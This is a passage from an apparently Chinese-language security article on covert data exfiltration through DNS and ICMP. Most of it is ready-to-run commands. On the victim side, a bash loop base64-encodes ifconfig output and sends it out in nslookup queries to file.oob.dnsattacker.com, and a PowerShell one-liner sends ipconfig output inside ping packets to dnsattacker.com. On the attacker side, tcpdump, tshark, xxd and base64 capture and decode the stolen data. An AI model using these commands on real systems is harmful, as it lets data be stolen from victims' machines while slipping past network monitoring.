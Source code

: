   
**攻击者：**  

```
sudo tcpdump -n port 53 | tee file.txt
```

  
**提取和构造输出：**  

```
echo &#34;0x$(cat file.txt |tr ' ' '\n' |awk '/file.oob.dnsattacker.com/ {print $1}'|sort -u| cut -d '.' -f 2|tr -d '\n')&#34; | xxd -r -p
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpouic5s4pJkhLgCe3zOVlFCtVD0T9PSDtFcNashZ7skzloBgViauDNcntQ/640?wx_fmt=png&from=appmsg "")  
  
Base64 编码的文件比十六进制编码的文件尺寸更小。  
  
**受害者：**  

```
var=11111 && for i in $(ifconfig|base64|awk '{gsub(/.{50}/,&#34;&\n&#34;)}1'); do var=$((var+1)) && nslookup $var.$i.file.oob.dnsattacker.com; done# 以 base64 格式发送文件
```

  
**攻击者：**  

```
cat file2.txt |tr ' ' '\n' |awk '/file.oob.dnsattacker.com/ {print $1}'|sort -u| cut -d '.' -f 2|tr -d '\n'|base64 -d    # 提取输出
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoE5PLVPqu2YTlgVpg53PFfCR1agBcX4rk8NN1kZX8CXVDHkuzJotQxg/640?wx_fmt=png&from=appmsg "")  
#### ICMP  
##### Windows  
  
**受害者**  

```
cmd /v /c &#34;ipconfig > output.txt && powershell $text=Get-Content output.txt;$ICMPClient = New-Object System.Net.NetworkInformation.Ping;$PingOptions = New-Object System.Net.NetworkInformation.PingOptions;$PingOptions.DontFragment = $True;$sendbytes = ([text.encoding]::ASCII).GetBytes($text);$ICMPClient.Send('dnsattacker.com',60 * 1000, $sendbytes, $PingOptions);
```

  
**攻击者**  

```
sudo tcpdump 'icmp and src host 202.14.120.xx' -w powericmp.pcap  # 捕获
```

  
**提取：**  

```
echo &#34;0x$(tshark -n -q -r powericmp.pcap -T fields -e data.data | tr -d '\n' | tr -d ':')&#34; | xxd -r -p   # 或使用 Wireshark GUI
```
